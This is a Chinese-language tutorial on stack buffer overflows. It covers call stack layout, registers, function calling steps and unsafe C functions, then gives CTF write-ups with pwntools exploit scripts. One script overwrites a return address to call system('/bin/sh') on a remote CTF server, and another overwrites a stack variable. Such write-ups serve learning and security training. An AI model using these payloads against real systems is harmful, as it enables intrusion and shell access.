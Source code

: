 # 栈溢出从入门到入狱



* #### 函数调用栈

  * #####  栈与系统栈

    * 栈

      栈是一种特殊的线性表，仅能在线性表的一端操作，栈顶允许操作，栈底不允许操作，先进后出。栈顶放入元素的操作称为入栈，取出元素称为出栈。 

    * 系统栈

      内存中的栈，由系统自动维护，用于实现高级语言中的函数调用。 

      程序的栈是从进程地址空间的高地址向低地址增长的，高地址是栈底，低地址是栈顶

  * ##### 寄存器与栈帧

    * ESP：栈指针寄存器，其内存中是一个指针，该指针永远指系统栈最上面的一个栈帧的栈顶。 
    * EBP：基址指针寄存器，其内存中是一个指针，该指针永远指向系统栈最上面的要给栈帧的底部。 
    * EIP：指令寄存器，其内存中是一个指针，该指针永远指向下一条等待执行的指令地址。 

  * ##### 函数调用过程

    1. 参数入栈：将参数从右向左依次压入系统栈

    2. 返回地址入栈：将当前代码区调用的下一条指令地址压入栈中，供函数返回时继续执行。 

    3. 代码区跳转：处理器从当前代码区跳到被执行函数入口。 

    4. 栈帧调整：

       1. 保存当前栈帧状态，以备后面恢复本栈帧使用（push %ebp）
       2. 将当前栈帧切换到新的栈帧（mov %esp, %ebp）
       3. 给新栈帧分配空间（%esp减去所需空间大小，抬高栈顶） 

    5. 参数值放入内存

    6. 保存返回值（通常保存在%eax中）

    7. 降低栈顶，回收当前栈帧的空间（mov %ebp, %esp）

    8. 之前保存的ebp弹入%ebp（pop %ebp），恢复上一个栈帧

    9. 返回地址弹入%eip（ret）

       ![1](C:\Users\wdbbw\Desktop\1.jpg)

       

  * ##### 栈溢出原理

    程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变 

    * ###### 前提

      1. 程序必须向栈上写入数据。
      2. 写入的数据大小没有被良好地控制。

    * ###### 基本操作

      通过覆盖地址的方法来直接或者间接地控制程序执行流程。

      1. 寻找危险函数

         * 输入
           * gets，直接读取一行，忽略'\x00'
           * scanf
           * vscanf（将格式化数据读入可变参数列表）
         * 输出 
           * sprintf（把格式化的数据写入某个字符串中）
         * 字符串 
           * strcpy，字符串复制，遇到'\x00'停止
           * strcat，字符串拼接，遇到'\x00'停止
           * bcopy

      2. 确定填充长度 

         计算要操作的地址与要覆盖的地址的距离

      

    * ###### 覆盖函数返回地址调用函数

      - [**CSAPP-Buffer LabLevel0: Candle**](https://aidaip.github.io/example/2019-02-07-CSAPP-Buffer-Lab/#level0-candle)

      - **[CSAPP-Buffer Lab-Level1: Sparkler](https://aidaip.github.io/example/2019-02-07-CSAPP-Buffer-Lab/#level1-sparkler)**

      - [**[XMAN]level0**](https://aidaip.github.io/example/2019-02-12-Jarvis-OJ-%E5%A8%B1%E4%B9%90/#xmanlevel0)

      - ###### CGCTF-Stack Overflow

        ![6](C:\Users\wdbbw\Desktop\6.png)

        ![4](C:\Users\wdbbw\Desktop\4.png)

        ![5](C:\Users\wdbbw\Desktop\5.png)

        fgets处可以溢出

        存在system函数，没有/bin/sh ，需要写入/bin/sh 

        第一个fget写入bss段，可以通过这个fget写入/bin/sh

        通过第二个fget覆盖返回地址，但是n = 10，缓冲区只有10字节

        ![8](C:\Users\wdbbw\Desktop\8.png)

        查看n，发现可以通过数组A越界覆盖n，控制缓冲区的大小

        在第一个fget先填充A，再修改n的值，然后写入/bin/sh

        s与返回地址的距离为0x30+0x4，填充0x34个字节，然后将返回地址修改为system，写入一个无效地址作为system的返回地址，再写入system的参数/bin/sh，此时栈状态为

        |          ...          |
        | :-------------------: |
        | 0x0804A0AC（/bin/sh） |
        |      0xdeadbeef       |
        |  0x80483F0（system）  |
        |          ...          |

        返回到system是直接执行system而不是调用system

        根据调用函数的步骤，参数入栈，然后返回地址入栈，再跳转到被执行函数入口，此时已经跳转到system的入口，参数和返回地址在栈中的顺序也正确，所以可以执行system("/bin/sh")

        ```python
        from pwn import *
        r = remote('182.254.217.142',10001)
        binsh = p32(0x0804A0AC)
        system = p32(0x80483F0)
        payload1 = 'a'*0x28+p32(0x100)+'/bin/sh'
        payload2 = 'a'*0x34+system+p32(0xdeadbeef)+binsh
        r.sendline('1')
        r.sendline(payload1)
        r.sendline(payload2)
        r.interactive()
        #flag{Naya_chyo_ma_thur_meh_lava_ma_puoru}
        ```

        

    * ###### 覆盖栈上某个变量的值

      * ###### CGCTF-When did you born？

        ![3](C:\Users\wdbbw\Desktop\3.png)

        没有开启PIE

        ![2](C:\Users\wdbbw\Desktop\2.png)

        v5 = 1926可以得到flag，但输入v5后有一个判断，不能直接输入1926

        v5 != 1926，进入else，在输入v4时可以利用缓冲区溢出把v5的值修改为1926

        可以看出v5和v4的距离是8个字节，gets(&v4)时输入8字节的数据和1926就可以把v5修改为1926

        ```python
        from pwn import *
        r = remote("ctf.acdxvfsvd.net",1926)
        payload='a'*8 + p32(1926)
        r.recvuntil("What\'s Your Birth?\n")
        r.sendline("1234")
        r.recvuntil("What\'s Your Name?\n")
        r.sendline(payload)
        r.interactive()
        
        #flag{gets_is_dangerous_+1s}
        ```

        

      

    * 